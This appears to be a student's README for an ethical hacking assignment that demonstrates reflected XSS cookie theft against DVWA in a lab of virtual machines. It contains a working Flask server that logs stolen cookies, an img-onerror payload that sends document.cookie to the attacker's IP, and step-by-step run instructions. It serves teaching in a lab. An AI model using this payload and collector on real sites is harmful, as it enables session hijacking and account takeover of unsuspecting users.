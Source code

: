 # Cookie-Stealer

Q2 – Cookie Stealer (CSCI369 Ethical Hacking Assignment)

Description:
-------------
This project demonstrates a reflected XSS attack to steal a session cookie from a vulnerable web application (DVWA) and send it to a Flask server running on the attacker machine (Kali Linux). The stolen cookie is saved with a timestamp into a file called cookies.txt.

Environment Setup:
--------------------
Attacker: Kali Linux (IP: 10.0.2.15)
Victim: Meta2 VM (IP: 10.0.2.4)
Target Web App: DVWA (Damn Vulnerable Web App), accessible at http://10.0.2.4/dvwa

All VMs should be on the same NAT network and able to ping each other.

Files in this folder:
----------------------
1. stealer.py         - Python Flask web server that logs stolen cookies
2. xss_payload.txt    - JavaScript payload used for the XSS injection
3. README.txt         - This file (setup guide and explanation)

==============================
📄 stealer.py (Flask Server)
==============================
# ================================================
# 🍪 Cookie Stealer Flask Server – CSCI369 Assignment Q2
# Sheethal Santhanam (Kali IP: 10.0.2.15)
# Description:
# This Python Flask server runs on the Kali VM (attacker).
# It receives session cookies sent via a reflected XSS payload injected into DVWA.
# Received cookies are stored in cookies.txt with a timestamp.
# ================================================

from flask import Flask, request             # Flask = lightweight Python web framework
from datetime import datetime               # Used to add a timestamp to each stolen cookie

# Create a new Flask app instance
app = Flask(__name__)

# Define route '/' – this receives incoming GET requests
@app.route('/')
def steal_cookie():
    # Get the 'cookie' parameter from the URL (e.g. ?cookie=PHPSESSID=abc123)
    cookie = request.args.get('cookie')

    if cookie:
        # Get current timestamp (formatted)
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")

        # Write the stolen cookie and timestamp to cookies.txt
        with open("cookies.txt", "a") as f:
            f.write(f"[{timestamp}] Cookie: {cookie}\n")

        return "Cookie received!"  # Response for testing
    return "No cookie found."      # Response if no parameter was provided

# Start the Flask server
# host='0.0.0.0' makes it accessible from other machines (Meta2 VM)
# port=8080 is the attacker's listening port
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)

==============================
📄 xss_payload.txt (JavaScript Payload)
==============================
<img src=x onerror="new Image().src='http://10.0.2.15:8080/?cookie='+document.cookie;">

==============================
🛠 Instructions to Run
==============================
1. Set up Flask server on Kali:
   sudo apt update
   sudo apt install python3-venv -y
   mkdir ~/myproject
   cd ~/myproject
   python3 -m venv venv
   source venv/bin/activate
   pip install Flask

   Save stealer.py in this folder
   Run the server:
   
   python3 stealer.py

3. Access DVWA from Kali browser:
   Visit: http://10.0.2.4/dvwa
   Login with: admin / password
   Set security to: Medium
   Navigate to: XSS (Reflected)

4. Inject the payload from xss_payload.txt into the input field and click Submit.

5. To check if the cookie was received:
   cd ~/myproject
   cat cookies.txt

   Example output:
   [2025-07-25 18:43:01] Cookie: PHPSESSID=xyz123; security=medium

==============================
ℹ️ How It Works
==============================
- The attacker injects JavaScript that grabs document.cookie.
- It sends the cookie to the attacker's Flask server via HTTP GET.
- Flask receives it and saves it in cookies.txt with a timestamp.

==============================
⚠️ Disclaimer
==============================
This project is for academic and ethical hacking purposes only. Do not use these techniques on real systems without permission. Unauthorized hacking is illegal.


Assignment Requirements Covered:
-----------------------------------
- Flask app to receive and log cookies ✔
- Timestamp using datetime module ✔
- Final XSS payload in text file ✔
- Tested on DVWA with "Medium" security ✔
